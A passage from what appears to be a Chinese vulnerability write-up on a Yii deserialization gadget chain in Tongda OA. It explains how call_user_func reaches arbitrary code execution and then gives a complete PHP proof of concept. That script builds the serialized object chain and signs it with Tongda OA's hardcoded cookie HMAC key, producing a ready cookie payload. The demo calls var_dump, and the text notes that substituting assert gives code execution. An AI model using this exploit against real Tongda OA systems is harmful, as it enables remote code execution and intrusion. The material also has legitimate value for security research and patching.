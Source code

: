 这里可以看到有call\_user\_func的调用，get的参数$key的值是由getTypeCategory中的$this->type提供的，这个是完全可控的，而buildKey对于全是字母数字的长度32以下的则不做任何修改。getValue中的$this->\_cache也是完全可控的，所以这也就说明get函数中的$value可控，并且在call\_user\_func中的$this->serializer也是在反序列化的时候完全可控，这样这里的call\_user\_func就导致了任意代码执行。由于目标是通达OA，php版本为php5，这里用$this->serializer赋值为assert就可以类似eval的进行任意代码执行。

#### poc

下面是完整的poc

```php
<?php
//仅用于安全研究与授权测试，使用此漏洞造成的任何攻击影响均与本文作者无关。
namespace yii\db {
    class ColumnSchemaBuilder {
        protected $type = 'x';
        public $categoryMap;

        function __construct($categoryMap) {
            $this->categoryMap = $categoryMap;
        }
    }

    class Connection {
        public $pdo = 1;

        function __construct($dsn) {
            $this->dsn = $dsn;
        }
    }

    class BatchQueryResult {
        private $_dataReader;

        function __construct($dataReader) {
            $this->_dataReader = $dataReader;
        }
    }
}

namespace yii\caching {
    class ArrayCache {
        public $serializer;
        private $_cache;

        function __construct($function, $parameter) {
            $this->serializer = [1 => $function];
            $this->_cache = ['x' => [$parameter, 0]];
        }
    }
}
namespace{
    $function = 'var_dump';
    $parameter = 123;

    $cache = new \yii\caching\ArrayCache($function, $parameter);
    $csb = new \yii\db\ColumnSchemaBuilder($cache);
    $conn = new \yii\db\Connection($csb);
    $query = new \yii\db\BatchQueryResult($conn);
    $data=(serialize($query));
    $data=hash_hmac('sha256', $data, 'tdide2').$data; //通达OA的cookie反序列化校验
    echo urlencode($data);
}
```
